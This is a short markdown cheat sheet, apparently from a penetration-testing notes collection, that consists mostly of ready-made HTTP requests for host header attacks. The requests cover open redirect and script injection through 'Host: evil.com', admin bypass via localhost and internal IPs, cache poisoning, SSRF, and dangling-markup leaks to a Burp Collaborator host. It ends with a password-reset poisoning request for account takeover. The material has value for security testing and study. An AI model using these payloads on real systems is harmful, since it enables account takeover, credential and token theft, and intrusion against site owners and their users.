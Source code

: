 # Host Header Atttack

### Host Poisoing = Open Redirect

```http
Host: evil.com

Responce:

Location: https://evil.com
```

### Host Poisoing = XSS

```http
Host: evil.com

Responce:

<script src=//evil.com/source.js>
```

### Host Header Authentication Bypass
```http
GET /admin HTTP/1.1
Host: localhost
```

```http
GET /admin HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Cache Poisoning via Ambiguous Request

```http
GET /admin HTTP/1.1
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net
```

### SSRF via Flawed Request Parsing

```http
GET https://victim.host.com HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
```
If you received HTTP request, test:

```http
GET https://victim.host.com HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Dangling Markup

```http
GET /admin HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
```

```http
POST /member/getpassword HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

### Host Validation Bypass via connection state attack

Burp Suite > Repeater > + > Create Tab Group > 1 & 2

1:
```
GET /admin or resetPassword HTTP/1.1
Host: victim.host.com
```
2:
```
GET / HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
or
Host: localhost <-- Intruder
Host: SUBDOMAIN.burpcollaborator.net
Host: victim.host.com:'<a href=//"SUBDOMAIN.burpcollaborator.net/?
...
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net

```
# P2 HIGH Account Takeover via Reset Password
```http
POST /member/getpassword HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

https://application.security/free-application-security-training/owasp-top-10-host-header-injection
